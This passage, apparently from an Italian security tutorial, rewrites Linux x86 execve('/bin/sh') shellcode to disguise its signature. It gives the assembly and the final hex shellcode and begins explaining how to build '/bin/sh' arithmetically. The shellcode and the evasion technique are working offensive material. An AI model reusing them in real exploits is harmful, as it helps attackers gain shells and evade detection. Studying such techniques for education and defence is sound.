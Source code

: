 Con ECX a 0, possiamo impostare EAX ed EDX a 0 semplicemente invocando
l'istruzione
[MUL](http://www.giobe2000.it/Tutorial/Schede/07-IstruzioniCpu/MUL.asp) che
moltiplica il valore in EAX con il valore passato per argomento, in questo caso
il valore del registro ECX e memorizzando il risultato della moltiplicazione in
EAX ed EDX.

{% highlight asm %}
;
; int execve(const char *filename, char *const argv[], char *const envp[]);
; execve() is defined as #define __NR_execve 11 on /usr/include/i386-linux-gnu/asm/unistd_32.h

; first rewrite: we change the ecx and edx initialization to zero with push and
; pop right after eax is being set to 0

; second rewrite: we use MOV and SUB to set a register to 0, ECX in this case.
; Than we use MUL to multiply the value in EAX (we don't care which) storing 0 in
; both EAX and EDX

mov ecx, 0xdeadbeef
sub ecx, 0xdeadbeef

mul ecx

push eax	; The NULL byte

push 0x68732f2f ; "sh//". The second '\' is used to align our command into the stack
push 0x6e69622f ; "nib/"
mov ebx, esp	; EBX now points to "/bin//sh"

mov al, 0xB	; 11 in decimal
int 0x80
{% endhighlight %}

Codice esadecimale dello shellcode:
{% highlight sh %}
\xb9\xef\xbe\xad\xde\x81\xe9\xef\xbe\xad\xde\xf7\xe1\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
{% endhighlight %}



Come si può vedere, in questo caso lo shellcode che otteniamo ha effettivamente
un aspetto diverso da quello di partenza. La strada è ancora lunca, ma stiamo
iniziando a rendere un po' meno leggibile quello che vogliamo mettere nel
nostro payload.

## Terzo passaggio: usiamo la matematica per /bin/sh

Quello che possiamo cambiare ora è il modo con cui salviamo nello stack il
comando da eseguire. Per ora facciamo delle PUSH passando la codifica
esadecimale di /bin/sh in modo tale che, quando verrà letta dallo stack, che
ricordiamo è una struttura LIFO (Last In First Out), verrà ricostruito in
maniera corretta.

Cambiamo quindi le PUSH in operazioni matematiche per valorizzare il registro
EAX al valore che voglio salvare nello stack. I numeri sono stati scelti a
caso, tranne ovviamente l'ultimo ADD per il quale siamo dovuti atterrare al
valore esagerato. Unico vincolo era quello di non causare un overflow del
registro EAX e di non superare il valore che voglio salvare nello stack per
evitare di dover utilizzare anche una SUB.
